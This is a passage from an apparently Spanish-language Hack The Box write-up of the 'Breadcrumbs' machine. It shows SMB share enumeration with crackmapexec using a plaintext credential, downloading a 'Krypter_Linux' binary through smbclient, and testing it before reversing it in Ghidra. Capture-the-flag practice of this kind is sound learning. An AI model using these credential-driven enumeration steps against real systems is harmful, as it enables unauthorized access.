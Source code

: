```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Breadscrumbs/content$ crackmapexec smb 10.10.10.228 -u development -p 'fN3)sN5Ee@g' --shares
/usr/lib/python3/dist-packages/paramiko/transport.py:219: CryptographyDeprecationWarning: Blowfish has been deprecated
  "class": algorithms.Blowfish,
SMB         10.10.10.228    445    BREADCRUMBS      [*] Windows 10.0 Build 19041 x64 (name:BREADCRUMBS) (domain:Breadcrumbs) (signing:False) (SMBv1:False)
SMB         10.10.10.228    445    BREADCRUMBS      [+] Breadcrumbs\development:fN3)sN5Ee@g 
SMB         10.10.10.228    445    BREADCRUMBS      [+] Enumerated shares
SMB         10.10.10.228    445    BREADCRUMBS      Share           Permissions     Remark
SMB         10.10.10.228    445    BREADCRUMBS      -----           -----------     ------
SMB         10.10.10.228    445    BREADCRUMBS      ADMIN$                          Remote Admin
SMB         10.10.10.228    445    BREADCRUMBS      Anouncements    READ            
SMB         10.10.10.228    445    BREADCRUMBS      C$                              Default share
SMB         10.10.10.228    445    BREADCRUMBS      Development     READ            
SMB         10.10.10.228    445    BREADCRUMBS      IPC$            READ            Remote IPC
```
```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Breadscrumbs/content$ smbclient -U development //10.10.10.228/Development
Password for [WORKGROUP\development]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan 15 18:03:49 2021
  ..                                  D        0  Fri Jan 15 18:03:49 2021
  Krypter_Linux                       A    18312  Sun Nov 29 05:11:56 2020

		5082961 blocks of size 4096. 1594168 blocks available
smb: \> get krypter_Linux
getting file \krypter_Linux of size 18312 as krypter_Linux (27.8 KiloBytes/sec) (average 27.8 KiloBytes/sec)
```
Encontramos un archivo ELF, al ejecutarlo nos pide una contraseña, al no tener ninguna podemos revisar a profundad que es lo que hace con ghidra.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Breadscrumbs/content$ ./krypter_Linux 
Krypter V1.2

New project by Juliette.
New features added weekly!
What to expect next update:
	- Windows version with GUI support
	- Get password from cloud and AUTOMATICALLY decrypt!
***

No key supplied.
USAGE:

Krypter <key>
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Breadscrumbs/content$ ./krypter_Linux aaaa
Krypter V1.2

New project by Juliette.
New features added weekly!
What to expect next update:
	- Windows version with GUI support
	- Get password from cloud and AUTOMATICALLY decrypt!
***

Incorrect master key
```